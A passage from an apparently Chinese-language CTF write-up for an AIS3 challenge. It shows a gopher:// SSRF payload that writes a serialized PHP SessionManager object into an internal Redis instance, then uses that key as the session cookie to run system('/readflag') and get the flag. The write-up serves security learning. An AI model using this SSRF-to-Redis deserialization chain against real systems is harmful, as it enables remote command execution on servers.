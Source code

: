 用`gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3Bs%3A9%3A%5C%22/readflag%5C%22%3Bs%3A6%3A%5C%22encode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 將其設為 `O:14:"SessionManager":3:{s:3:"val";s:9:"/readflag";s:6:"encode";s:6:"system";s:6:"sessid";s:4:"code";}` 

![image](https://user-images.githubusercontent.com/57281249/168681275-3db45eb8-68a1-466d-bd64-dc5569362920.png)

然後將 cookie 切為 `fc57bda95a5184e55555` 便可以看到 flag。

![image](https://user-images.githubusercontent.com/57281249/168681316-972fd3c8-472d-461f-add3-a50a971d0dc0.png)

#### Flag
`AIS3{deadly_ssrf_to_rce}`
